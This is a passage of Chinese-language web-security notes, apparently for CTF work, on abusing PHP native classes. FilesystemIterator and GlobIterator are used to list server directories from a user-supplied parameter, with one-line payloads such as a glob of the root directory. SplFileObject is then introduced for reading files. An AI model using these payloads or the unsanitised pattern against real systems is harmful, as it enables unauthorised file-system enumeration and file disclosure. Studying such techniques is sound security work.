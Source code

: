 > 使用 FilesystemIterator 类

```php
<?php
$dir = $_GET['whoami'];
$a = new FilesystemIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>

# payload一句话的形式:
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

> 使用 GlobIterator 类

```php
<?php
$dir = $_GET['whoami'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>

# payload一句话的形式:
$a = new FilesystemIterator("/*");foreach($a as $f){echo($f->__toString().'<br>');}
```

### 可读取文件类
> 目前发现的可读取文件类`SplFileObject`，`SplFileInfo`类为单个文件的信息提供了一个高级的面向对象的接口，可以用于对文件内容的遍历、查找、操作等

```php
class SplFileObject extends SplFileInfo implements RecursiveIterator, SeekableIterator {
/* Constants */
const int DROP_NEW_LINE = 1;
const int READ_AHEAD = 2;
const int SKIP_EMPTY = 4;
const int READ_CSV = 8;
/* Methods */
public __construct(
    string $filename,
    string $mode = "r",
    bool $useIncludePath = false,
    ?resource $context = null
)
public current(): string|array|false
public eof(): bool
public fflush(): bool
public fgetc(): string|false
public fgetcsv(string $separator = ",", string $enclosure = "\"", string $escape = "\\"): array|false
public fgets(): string
public fgetss(string $allowable_tags = ?): string
public flock(int $operation, int &$wouldBlock = null): bool
public fpassthru(): int
public fputcsv(
    array $fields,
    string $separator = ",",
    string $enclosure = "\"",
    string $escape = "\\",
    string $eol = "\n"
): int|false
public fread(int $length): string|false
public fscanf(string $format, mixed &...$vars): array|int|null
```